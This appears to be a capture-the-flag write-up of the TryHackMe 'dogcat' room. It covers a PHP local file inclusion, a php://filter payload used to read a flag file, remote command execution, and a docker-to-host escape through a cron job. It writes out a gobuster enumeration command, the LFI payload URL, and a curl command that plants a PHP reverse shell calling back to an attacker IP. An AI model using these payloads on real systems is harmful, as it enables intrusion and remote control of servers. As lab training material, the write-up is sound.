 # dogcat

https://tryhackme.com/room/dogcat

## Scan

We discover 2 ports (ssh and http)

![image](https://github.com/Roqlane/writeups/assets/78229498/0706358e-69c6-4d42-a1a3-a10ea209d386)

## Website

![image](https://github.com/Roqlane/writeups/assets/78229498/06bd7de1-dbd0-4c61-abeb-57df39a69a12)

So this is a site where you can see pictures of dogs and cats. Pretty nice! I am thinking of just looking at them instead of completing the chall XD

Hmmmm interesting result, seems like we got an lfi.

![image](https://github.com/Roqlane/writeups/assets/78229498/4673de48-4870-42c0-ad2e-173105a7a334)

This LFI is pretty tricky, I think the code behind it is like so:

`include ($file . ".php")`

To get the first flag, I first needed to perform an enum using gobuster:

`gobuster dir -u "http://10.10.242.241" -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .php, .txt`

Then I discovered that there is a flag.php file. I tried to access it but it didn't print out any results. So we need a way to get its content. For that I use a payload from that article https://github.com/qazbnm456/awesome-security-trivia/blob/master/Tricky-ways-to-exploit-PHP-Local-File-Inclusion.md.

Put it on practice: 

`http://10.10.17.47/?view=php://filter/convert.base64-encode/resource=cats/../../../../var/www/html/flag`

Got a base64 response so I used cyberchef to decode it

![image](https://github.com/Roqlane/writeups/assets/78229498/41946361-1ec4-4313-8a4a-9c80952ac182)

## Web shell

Now we have to use another wrapper to execute shell commands. After some search, I found that I could use the filter wrapper (thx to this site: https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams) and this python script to make the exploit https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py

![image](https://github.com/Roqlane/writeups/assets/78229498/9363c59d-214b-4d65-8fda-b02944433f4e)

I put the result in the FILTERS variable

![image](https://github.com/Roqlane/writeups/assets/78229498/029728ae-1bef-4cd0-8828-0363ed980874)

Execute `ls%20..%2F` on the cmd param and you found out that there is the second flag

![image](https://github.com/Roqlane/writeups/assets/78229498/bc106a42-7a8e-4b8a-af42-a2b526eda277)

![image](https://github.com/Roqlane/writeups/assets/78229498/1ce01b76-9738-4661-b1d3-e9dc2d061995)

## Reverse shell

`curl "http://10.10.17.47/?view=php://filter/$FILTERS/resource=cat&cmd=php%20-r%20'%24sock%3Dfsockopen(%2210.9.164.243%22%2C6969)%3Bexec(%22sh%20%3C%263%20%3E%263%202%3E%263%22)%3B'" --output result`

![image](https://github.com/Roqlane/writeups/assets/78229498/2fe4aa6a-e835-4bd8-aedd-88a0c4fc328e)

## privesc

Well...

![image](https://github.com/Roqlane/writeups/assets/78229498/a4c4198b-a6e0-4ab8-921a-b20e20f2ccca)

Or

![image](https://github.com/Roqlane/writeups/assets/78229498/8a6244f8-36b7-42ef-b848-36f04b8dd329)

![image](https://github.com/Roqlane/writeups/assets/78229498/b8083628-f747-46d3-841c-574ed560bbd6)

If I remember well, we are in a docker container, let's use this: https://github.com/stealthcopter/deepce

![image](https://github.com/Roqlane/writeups/assets/78229498/eeec3090-f522-474c-a816-29f5d9ca38c3)

![image](https://github.com/Roqlane/writeups/assets/78229498/38aba1ee-a112-4557-bf46-3ad68b5986e4)

![image](https://github.com/Roqlane/writeups/assets/78229498/a46bb9aa-97e2-4d04-8069-d0f6925e9a3a)


Well I passed a lot of time searching for docker escape, only to find out that the backup.sh file is executed as a cron job......
That surely means that the host is executing the file, so if we add a reverse shell to the file, we could access the host system.

![image](https://github.com/Roqlane/writeups/assets/78229498/7776b43b-65c8-4228-94bb-c54753145cad)

![image](https://github.com/Roqlane/writeups/assets/78229498/ff121d3e-86d4-49a5-842d-811c2ce13ac8)

I searched for a docker escape but it was a cron job all this time XD. 
